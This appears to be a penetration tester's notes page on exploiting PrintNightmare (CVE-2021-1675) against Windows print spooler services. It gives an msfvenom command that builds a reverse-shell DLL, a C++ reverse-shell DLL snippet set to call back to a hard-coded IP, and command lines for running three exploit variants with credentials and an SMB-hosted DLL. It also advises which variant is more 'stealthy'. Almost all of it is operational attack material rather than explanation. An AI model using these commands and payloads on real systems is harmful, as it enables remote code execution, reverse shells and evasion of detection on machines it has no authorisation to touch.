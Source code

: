 https://github.com/outflanknl/PrintNightmare

Did not test this yet. But seems 'better' then the cube0x0 implementation

## Create DLL

MSVenom if you think AV is not a problem. Otherwise build something custom.

### MSFVenom

```bash
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<PORT TO LISTEN> -f dll -o /home/user/Documents/printnightmare/payloads/rev.dll
```

### Custom simple C++ reverse shell example

1. Install C++ tools in visual studio.

2. Create new project with Dynamic-Link Libary template.

3. Download the `plain_revshell.cpp` file and paste the content into the existing template.

{{% attachments title="Related files" pattern="plain_revshell.cpp" %}}

4. Update the RHOST & RPORT on StartCallback

```cpp
BOOL WINAPI DllMain(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	switch (dwReason) {
	case DLL_PROCESS_ATTACH:
		StartCallback("172.16.0.137", 80); // <- update this
```

5. Build the release (ctrl+shift+b)

6. Place the DLL in the payloads folder

## Usage

```bash
python3 [MSPAR|MSRPRN|MSRPRN_nobrute].py 'domain/user:pass@ip' PrinterName '\\IP_of_SMB_share\share\printer.dll'
```

There are 3 different version. All versions have been updated to support a custom driver/printername.

| Version        | Info                                                                                                                     | When to use                                                                                                             |
| -------------- | ------------------------------------------------------------------------------------------------------------------------ | ----------------------------------------------------------------------------------------------------------------------- |
| MSPAR          | Abuses MSPAR                                                                                                             | When ItWasAllADream says its vulnerable                                                                                 |
| MSRPRN         | Abuses MSRPRN                                                                                                            | When ItWasAllADream says its vulnerable                                                                                 |
| MSRPRN_nobrute | Abuses MSRPRN but does not brute force driver folders, see [this pull](https://github.com/cube0x0/CVE-2021-1675/pull/25) | When ItWasAllADream says its vulnerable but it does not seem to work and you tried everything listed in `Errors & tips` |

{{% notice warning %}}
Do note that MSRPRN_nobrute is more 'stealthy' (in the sense that there is less activity on disk) but less forgiving. Each run of the exploit needs a new printer name and dll name if they have not been removed.
{{% /notice %}}
